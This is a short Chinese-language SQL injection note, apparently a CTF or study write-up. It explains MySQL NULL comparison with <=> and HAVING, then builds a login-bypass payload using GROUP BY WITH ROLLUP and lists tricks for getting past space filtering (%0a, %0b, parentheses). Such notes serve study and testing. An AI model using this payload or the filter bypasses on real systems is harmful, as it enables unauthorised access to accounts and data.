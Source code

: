 ![Alt text](5.png)
#### 1.mysql中null = null会返回 null，但是mysql还有一个比较操作符<=>，当null <=> null的时候会返回1
#### mysql中的where和having子句都可以实现过滤记录的功能,having是从前筛选的字段再筛选,前面没有筛选就会报错结合以上语句构造
```
SELECT * FROM admin where password ='' =0 group by username  with ROLLUP having username  IS  NULL;

```
执行语句后结果如下图
![Alt text](6.png)
#### 除了 <=> ，还有两个其他的操作符用来处理某个值和NULL做比较，也就是IS NULL and IS NOT NULL。他们是ANSI标准中的一部分，因此也可以用在其他数据库中。而<=>只能在mysql中使用。
#### 所以最后ｐｌａｙｌｏａｄ为:
```
username = '=0 group by password with rollup having password <=> null#
```
### 绕过语句
#### 1.绕过空格
##### 1.%0a,%0b,%9c
##### 2.()